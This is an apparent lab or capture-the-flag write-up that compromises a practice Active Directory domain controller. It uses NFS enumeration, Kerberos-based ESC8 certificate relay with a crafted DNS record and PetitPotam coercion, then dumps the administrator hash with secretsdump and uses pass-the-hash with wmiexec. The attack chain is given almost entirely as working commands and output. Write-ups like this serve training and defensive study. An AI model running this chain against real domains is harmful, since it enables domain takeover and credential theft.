



| Port | Service | Informations |
| ---- | ------- | ------------ |
| 80   | http    | IIS 10.0     |
| 445  | SMB     |              |
# Enumeration
```hosts file
10.129.46.176   DC-JPQ225 DC-JPQ225.cicada.vl cicada.vl
```
## HTTP - 80
IIS default page
```bash
feroxbuster -u http://cicada.vl
404      GET       29l       95w     1245c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      334l     2089w   180418c http://cicada.vl/iisstart.png
200      GET       32l       55w      703c http://cicada.vl/
404      GET        0l        0w     1245c http://cicada.vl/blogbio
404      GET        0l        0w     1245c http://cicada.vl/buch
404      GET        0l        0w     1245c http://cicada.vl/blog_old
404      GET        0l        0w     1245c http://cicada.vl/branch
404      GET        0l        0w     1245c http://cicada.vl/bronze
400      GET        6l       26w      324c http://cicada.vl/error%1F_log
[####################] - 24s    30003/30003   0s      found:8       errors:0
[####################] - 24s    30000/30000   1275/s  http://cicada.vl/
--> Only default page for IIS server
```
## SMB - 445
```bash
nxc smb 10.129.46.176 --shares
-> NTLM disabled
trying with -k but nothing works here
```
## NFS - 2049
```bash
# Enum NFS share on target
showmount -e 10.129.46.176
> /profiles (everyone)
# Mount /profile on my machine
mount -t nfs -o rw 10.129.46.176:/profiles /mnt
> OK ! 
> # Now we have a list of user
```
-> We enumerate the share and we found an image of a Women at the desk with password on a sticky note

Lets try using his credential to connect to the box with kerberos
```bash
nxc smb 10.129.46.176 'Rosie.Powell' -p 'Cicada123' -k
> cicada.vl\Rosie.Powell:Cicada123
```
# Auth as DC-JPQ225
-> Now with Rosie's creds we can list shares
```bash
nxc smb 10.129.46.176 -u 'Rosie.Powell' -p 'Cicada123' -k --shares
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
CertEnroll      READ            Active Directory Certificate Services share => Not by default !!
IPC$            READ            Remote IPC
NETLOGON        READ            Logon server share
profiles$       READ,WRITE => Not by default
SYSVOL          READ            Logon server share
```
- Lets get a TGT for user Rosie using netexec
```bash
nxc smb 10.129.46.176 -u 'Rosie.Powell' -p 'Cicada123' -k --generate-tgt Rosie
```
- Now connect to smb share using smbclient.py
```bash
export KRB5CCNAME=Rosie.ccache
smbclient.py -k DC-JPQ225.cicada.vl
> shares
> use CertEnroll
> ls
```

-> Searching for vuln in ADCS using certipy
```bash
certipy find -target DC-JPQ225.cicada.vl -u Rosie.Powell@cicada.vl -p Cicada123 -k -vulnerable -stdout
Certificate Authorities
  0
    CA Name                             : cicada-DC-JPQ225-CA
    DNS Name                            : DC-JPQ225.cicada.vl
    Certificate Subject                 : CN=cicada-DC-JPQ225-CA, DC=cicada, DC=vl
    Certificate Serial Number           : 1790486A54690A8E48F6247939099471
    Certificate Validity Start          : 2026-01-19 14:11:24+00:00
    Certificate Validity End            : 2526-01-19 14:21:24+00:00
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : CICADA.VL\Administrators
      Access Rights
        ManageCa                        : CICADA.VL\Administrators
                                          CICADA.VL\Domain Admins
                                          CICADA.VL\Enterprise Admins
        ManageCertificates              : CICADA.VL\Administrators
                                          CICADA.VL\Domain Admins
                                          CICADA.VL\Enterprise Admins
        Enroll                          : CICADA.VL\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP.
Certificate Templates                   : [!] Could not find any certificate templates
```
-> No vulnerable template but vulnerable to ESC8
# ESC8 exploitation
> ESC8 describes a privilege escalation vector where an attacker performs an NTLM relay attack against an AD CS HTTP-based enrollment endpoint. These web-based interfaces provide alternative methods for users and computers to request certificates.

-> But NTLM is disable so, we have to do the same thing but abusing kerberos
## Attack
1. Auth as Rosie.Powell and Add malicious DNS record
2. Coerce with PetitPotam
3. Certificate as DC-JPQ225$
### 1. BloodyAD to ad DNS record
The record to add is structured as `<host><empty CREDENTIAL_TARGET_INFOMATION structure>`, which in this case will be `DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA`. I’ll set the DNS record with `bloodyAD`:
```bash
bloodyAD -u Rosie.Powell -p Cicada123 -d cicada.vl -k --host DC-JPQ225.cicada.vl add dnsRecord DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA 10.10.14.38
```
### 2. Setup certipy relay + coerce
```bash
certipy relay -target 'http://dc-jpq225.cicada.vl/' -template DomainController

```
- Net Exec + PetitPotam
```bash
netexec smb DC-JPQ225.cicada.vl -u Rosie.Powell -p Cicada123 -k -M coerce_plus -o LISTENER=DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA METHOD=PetitPotam
> Got DC-JPQ225.pfx
```
- We can auth as machine account with the certificate
```bash
certipy auth -pfx dc-jpq225.pfx -dc-ip 10.129.234.48
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'DC-JPQ225.cicada.vl'
[*]     Security Extension SID: 'S-1-5-21-687703393-1447795882-66098247-1000'
[*] Using principal: 'dc-jpq225$@cicada.vl'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'dc-jpq225.ccache'
[*] Wrote credential cache to 'dc-jpq225.ccache'
[*] Trying to retrieve NT hash for 'dc-jpq225$'
[*] Got hash for 'dc-jpq225$@cicada.vl': aad3b435b51404eeaad3b435b51404ee:a65952c664e9cf5de60195626edbeee3
--
nxc smb 10.129.46.241 -u dc-jpq225\$ -H aad3b435b51404eeaad3b435b51404ee:a65952c664e9cf5de60195626edbeee3 -k
[*]  x64 (name:DC-JPQ225) (domain:cicada.vl) (signing:True) (SMBv1:False) (NTLM:False)
[+] cicada.vl\dc-jpq225$:a65952c664e9cf5de60195626edbeee3

secretsdump.py -k -no-pass cicada.vl/dc-jpq225\$@dc-jpq225.cicada.vl -just-dc-user administrator
netexec smb dc-jpq225.cicada.vl -u administrator -H 85a0da53871a9d56b6cd05deda3a5e87 -k
wmiexec.py cicada.vl/administrator@dc-jpq225.cicada.vl -k -hashes :85a0da53871a9d56b6cd05deda3a5e87
```
